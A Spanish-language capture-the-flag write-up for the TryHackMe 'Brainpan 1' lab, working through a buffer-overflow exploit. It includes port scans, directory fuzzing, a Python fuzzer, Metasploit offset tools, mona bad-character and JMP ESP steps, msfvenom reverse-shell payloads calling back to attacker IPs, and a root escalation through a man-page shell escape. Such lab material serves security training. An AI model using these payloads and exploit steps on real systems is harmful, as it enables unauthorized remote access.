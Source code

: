 ```yaml
---
title:  "Brainpan 1 - Writeup - Tryhackme"
categories: 
  - Tryhackme
tags:
  - Buffer Overflow
  - Windows
  - eCPPT
  - OSCP
toc: true
toc_label: "Tabla de contenido"
---
```


## Puertos
```bash
# Nmap 7.91 scan initiated Mon Oct  4 08:54:10 2021 as: nmap -sS --min-rate 200 -p- --open -n -v -Pn -oN puertos 10.10.5.133
Nmap scan report for 10.10.5.133
Host is up (0.22s latency).
Not shown: 45093 closed ports, 20440 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Oct  4 08:56:58 2021 -- 1 IP address (1 host up) scanned in 168.16 seconds
```

## serviciosversiones
```bash
# Nmap 7.91 scan initiated Mon Oct  4 08:18:46 2021 as: nmap -sV -sC -p9999,10000 -oN serviciosVersiones 10.10.5.133
Nmap scan report for 10.10.5.133
Host is up (0.19s latency).

PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=7%D=10/4%Time=615AFF49%P=x86_64-pc-linux-gnu%r(NU
SF:LL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|
SF:\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\
SF:x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x
SF:20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|
SF:\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x
SF:20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_
SF:\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x
SF:20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x
SF:20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x
SF:20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  4 08:20:09 2021 -- 1 IP address (1 host up) scanned in 82.36 seconds

```
# puerto 10000

![Puerto 10000](/assets/images/port1000.png)

# Fuzzing
```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.5.133:10000/FUZZ
```
![Fuzzing puerto 10000](/assets/images/fuzzingport10000.png)
# brainpan.exe
source: http://10.10.5.133:10000/bin/
![Brainpan executable](/assets/images/brainpanexe.png)
# Transfer file
```bash
smbserver.py share . -smb2support -username jch -password password123
```
![Transfer Brainpan executable](/assets/images/transferbrainpain.png)

![Immunity Brainpan executable](/assets/images/immunityBrain.png)

# Fuzzer.py
```python
#!/usr/bin/python3

import socket, signal, sys, time
from pwn import *

def def_handler(sig, frame):
	print ("\n\n[!]Saliendo...!!\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) < 3:
	print ("\n\n[!] Uso: pyhton3" + sys.argv[0] + "<ip> <port>\n")
	sys.exit(1)

ipAdd = sys.argv[1]
port = sys.argv[2]

if __name__=='__main__':

	buffer = ["A"]
	counter = 30

	while len(buffer) < 32:
		buffer.append("A"*counter)
		counter += 30

	p1 = log.progress("Enviando Payloads")

	for string in buffer:
	 p1.status("%s bytes" % len(string))
	 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	 s.connect((ipAdd, int(port)))
	 payload = bytes (string + '\r\n', "ascii")
	 s.send(payload)
	 data = s.recv(1024)

sleep(1)
```
![Fuzzer Brainpan executable](/assets/images/fuzzerpybrain.png)

# patter create
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 570
```
![Pattern create](/assets/images/offsetcalcbrain.png)
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```
![EIP control](/assets/images/eipcontrolBrain.png)
# creando directorio en mona
```bash
!mona config -set workingfolder C:\Users\jch\Desktop\%p
```
# creando bitearray
```bash
!mona bytearray -cpb "\x00"
```
![Mona Diretory Brain](/assets/images/monaDirBrain.png)
![Mona Compare Brain](/assets/images/monaCompareBrain.png)
![Mona Compare Brain](/assets/images/badCharsMona.png)
# r shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=443 EXITFUNC=thread -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai -f c
```
# jmp
```bash
!mona jmp -r esp -cpb "\x00"
```
![jmp Bain](/assets/images/jmpBrain.png)
![jmp Bain](/assets/images/rshellBrain.png)
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.9.94.28 LPORT=443 EXITFUNC=thread -a x86 --platform linux -b "\x00" -e x86/shikata_ga_nai -f c
```
![jmp Bain](/assets/images/brainpc.png)
# escalada
```bash
/home/anansi/bin/anansi_util
/home/anansi/bin/anansi_util manual id
!/bin/bash
```
![jmp Bain](/assets/images/escaladabrain.png)

